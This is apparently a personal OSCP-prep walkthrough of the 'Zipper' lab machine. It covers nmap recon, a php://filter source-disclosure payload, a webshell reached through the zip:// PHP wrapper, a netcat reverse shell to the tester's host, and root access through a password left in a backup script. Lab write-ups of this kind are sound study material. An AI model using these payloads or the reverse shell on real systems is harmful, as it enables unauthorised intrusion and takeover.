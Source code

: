```yaml
---
layout: /src/layouts/PostLayout.astro
title: Lavita
tags: []
---
```

**Start 12:14 06-05-2025**

---
```
Scope:
192.168.145.229
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV zipper -sT -T5 --min-rate=5000 -Pn -vvvv -p-

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Zipper
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/TCP - HTTP

![](../../../assets/062fde56a96d71ab005bd37cbaa78b63.png)

I tried to upload a webshell and see what happens:

![](../../../assets/c9f0af77b0750402d219bdb338e007d8.png)

![](../../../assets/c5b3459f551746bae25bc40374c55711.png)

Let's boot up `burp` to see what's happening underneath.

![](../../../assets/543243ed1b7df28b06b4ca3b36d75187.png)

I don't see anything unusual happening to my request, however I notice the `/index.php?file=` parameter and instantly think to test it.

### Source Code Disclosure

I go on and start testing it:

```
php://filter/read=convert.base64-encode/resource=config
```

![](../../../assets/fd069793308ff174b009cae7313bcaf7.png)

![](../../../assets/ca974dc48b9ae974d7b057a33b91aba1.png)

We get a new endpoint called `/home.php`, let's check it's source code:

![](../../../assets/19a40b29a09f11d353c9b2f84149084f.png)

This gave a massive output, however the relevant part is found below:

![](../../../assets/0756549fe9cbe68a8e4ed957bbee86c6.png)

Judging from this script I deducted that the function would naturally be called `upload.php`:

![](../../../assets/b20dc2bb33b400faa6190aba03e8377f.png)

>[!success]
>Not gonna lie, I was pleasantly surprised

![](../../../assets/f003d8110bbfa15d3c6f14f1d8f568c8.png)

>[!note]
>So this points to a Zip Upload vulnerability. We can HIGHLY LIKELY exploit this using hte `zip://` PHP wrapper.

Since we know the path of the upload, and we've verified the zip file name (because we downloaded it) we can now put together the URL to get to our webshell:

```
http://zipper/index.php?file=zip://uploads/upload_1746527079.zip%23webshell
```

![](../../../assets/f852fa61731aba42813f1da8e4abd4be.png)

Hell yeah!

# Foothold
## Shell as www-data

From here I booted up `penelope.py` (I am really trying to familiarize myself with it) and used my favourite linux reverse shell:

```shell
busybox nc 192.168.45.183 443 -e bash
```

![](../../../assets/c91c8253d0bfd81297dbaead32e031e6.png)

And we got access!! EZ PZ

![](../../../assets/0e6dadaae6b20be85a87bf0222e8d9ef.png)

It appears there's no users here.

![](../../../assets/fd35c1cd95d5ffb454480d2245879c63.png)

`/etc/passwd` confirms this, so no `local.txt`?

![](../../../assets/e37ce397061c46729987fb93c2dcec31.png)

Sneaky bastards.

### local.txt

![](../../../assets/867a3d8413b06ceec492723ac004780e.png)

# Privilege Escalation
## Sometimes it's right in front of you

As always I start from `/` with my manual enum. I quickly find a `backup.sh` file owned by *root*:

![](../../../assets/7c7fc5aabf49f2a378a1c200f0bf1259.png)

![](../../../assets/b1231a3fef3bd9c3b1c304080c217aee.png)

![](../../../assets/71621ec7ff9bf57c9eaf4cb7af018d65.png)

I then started checking how to exploit this but one thing really stuck with me, the bottom part literally mentioned:

```
WildCardsGoingWild
```

What could this mean? Could this be the password to *root*?

![](../../../assets/cd3bf4c732acdaf7989f804deed5985f.png)

Lol, sure is.

### proof.txt

![](../../../assets/41e6961d842c95c39586c6fdd754d200.png)

---

**Finished 13:14 06-05-2025**

[^Links]: [[OSCP Prep]]

#zip #php_wrapper #SourceCodeDisclosure #enumeration 
